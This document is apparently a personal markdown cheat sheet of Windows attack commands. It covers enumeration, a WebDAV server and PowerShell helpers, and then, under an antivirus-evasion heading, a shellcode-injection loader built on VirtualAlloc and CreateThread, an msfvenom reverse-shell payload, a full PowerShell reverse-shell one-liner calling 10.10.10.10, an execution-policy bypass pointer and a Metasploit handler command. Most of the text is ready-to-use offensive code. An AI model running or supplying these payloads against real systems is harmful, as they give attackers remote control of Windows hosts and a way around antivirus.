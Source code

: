 # Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV

### Powershell

Get help:

```
Get-Help somecommand
Get-Command -ParameterName ComputerName
Get-Command -name "*name*"
```

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Base64: https://stackoverflow.com/questions/15414678/how-to-decode-a-base64-string
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("somebase64string"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("sometext"))
```

Memory injection

https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=IpAtt LPORT=PortAtt -f powershell -v sc
```

### One-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README
- execution policy (see ByPAss): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

## Shellter

- link: https://www.shellterproject.com/

### Msf listener

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST AttIP;set LPORT AttPort;run;"
```



